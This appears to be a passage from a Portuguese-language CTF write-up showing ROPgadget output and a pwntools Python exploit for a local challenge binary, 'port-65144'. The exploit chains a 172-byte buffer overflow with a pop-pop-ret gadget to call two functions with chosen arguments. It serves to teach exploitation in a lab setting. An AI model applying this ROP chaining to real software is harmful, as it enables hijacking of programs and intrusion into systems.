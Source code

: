 ```bash
0x0804929a : pop ebp ; cld ; leave ; ret
0x08049431 : pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a3 : pop ebp ; ret
0x08049430 : pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a0 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08049022 : pop ebx ; ret
0x0804942f : pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a2 : pop edi ; pop ebp ; ret
0x080494a1 : pop esi ; pop edi ; pop ebp ; ret
0x08049433 : popal ; cld ; ret
0x0804901a : sal byte ptr [edx + eax - 1], 0xd0 ; add esp, 8 ; pop ebx ; ret
reisraff@3dbbde46a935:~/workdir/challs/port-65144$
```

Isso acima são gadgets, e eu faço um grep por `pop` que é o que precisamos, posso ver que temos um `pop; pop; ret;` no endereço `0x080494a2`, então irei atualizar meu exploit assim:

```python
#!/usr/bin/env python
import pwn

# pwn.context.log_level = 'debug'

poppopret = pwn.p32(0x080494a2)  # gadgets try ROPgadget

f1 = pwn.p32(0x8049256)     # func1 address
f1arg1 = pwn.p32(0x9c)      # 1st argument of func1
f1arg2 = pwn.p32(300)       # 2nd argument of func1

f2 = pwn.p32(0x804929e)     # func2 address
f2arg1 = pwn.p32(0x0)       # 1st argument of func2
f2arg2 = pwn.p32(0xd)       # 2nd argument of func2
f2arg3 = pwn.p32(0xd)       # 3rd argument of func2

buff = 'A' * 172             # our buffer with 172 A

"""
Now we put all together
buffer + func1 address + poppopret + 1st arg f1 + 2nd arg f1
+ func2 address + JUNK + 1st arg f2 + 2nd arg f2 + 3rd arg f2
"""
payload = buff.encode() \
    + f1 \
    + poppopret \
    + f1arg1 \
    + f1arg2 \
    + f2 \
    + 'JUNK'.encode() \
    + f2arg1 \
    + f2arg2 \
    + f2arg3

open('payload.txt', 'w').write(payload.decode('iso-8859-1'))

elf = pwn.ELF('./port-65144')
p = elf.process()
p.sendline(payload)

print('=========================')
print('what the process returned')
print(p.recv().decode())
```
